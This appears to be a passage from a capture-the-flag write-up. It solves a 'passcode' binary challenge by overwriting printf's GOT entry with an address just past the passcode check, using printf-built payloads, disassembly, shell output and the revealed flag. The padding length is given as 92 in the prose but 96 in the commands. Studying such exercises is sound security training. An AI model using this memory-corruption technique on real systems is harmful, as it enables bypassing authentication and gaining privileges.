 - a lot to choose from, lets try printf
```bash
pwndbg> disass printf
Dump of assembler code for function printf@plt:
   0x08049050 <+0>:     jmp    DWORD PTR ds:0x804c010
   0x08049056 <+6>:     push   0x8
   0x0804905b <+11>:    jmp    0x8049030
End of assembler dump.
pwndbg> 
```
- since printf jumps to the address 0x804c010, lets overwrite there
- now we need to figure out what we want to overwrite it with
    - an idea is where the program calls system(/bin/cat flag)
```bash
0x080492c4 <+206>:   call   0x80490a0 <system@plt>
```
- we need to input this address as an int since thats the datatype scanf is looking for

- 0x080492c4 = 134517444

- so our payload will be "A"*92 + '\x10\xc0\x04\x08' + '134517444'
```bash
passcode@ubuntu:~$ ( printf '%s' "$(printf '\x01%.0s' {1..96})"; printf '\x10\xc0\x04\x08'; printf '134517444' ) | ./passcode
Toddler's Secure Login System 1.1 beta.
enter you name : Welcome !
sh: 1: ����u�����P�h�������
                           ��1���P�������}�@�: not found
enter passcode1 : Now I can safely trust you that you have credential :)
```
- hm, it correctly jumped passed the passcode check but its all garbage data
- let's try an earlier address?
```bash
   0x0804927d <+135>:   cmp    DWORD PTR [ebp-0x10],0x1e240
   0x08049284 <+142>:   jne    0x80492ce <login+216>
   0x08049286 <+144>:   cmp    DWORD PTR [ebp-0xc],0xcc07c9
   0x0804928d <+151>:   jne    0x80492ce <login+216>
   0x0804928f <+153>:   sub    esp,0xc
   0x08049292 <+156>:   lea    eax,[ebx-0x1fc3]
   0x08049298 <+162>:   push   eax
```
```bash
0x0804928f <+153>:   sub    esp,0xc
```
- this line happens right after the passcode check
- 0x0804928f = 134517391
- so our payload will be "A"*92 + '\x10\xc0\x04\x08' + '134517391'
```bash
passcode@ubuntu:~$ ( printf "$(printf '\x01%.0s' {1..96})"; printf '\x10\xc0\x04\x08'; printf '134517391' ) | ./passcode
Toddler's Secure Login System 1.1 beta.
enter you name : Welcome !
enter passcode1 : Login OK!
s0rry_mom_I_just_ign0red_c0mp1ler_w4rning
Now I can safely trust you that you have credential :)
passcode@ubuntu:~$ 
```
- nice, we solved it
- reasoning for jumping to an earlier address:
    - setregid() provides the required group privilege needed to run /bin/cat flag since permissions for that file are restricted
    - basically just need to to run setregid first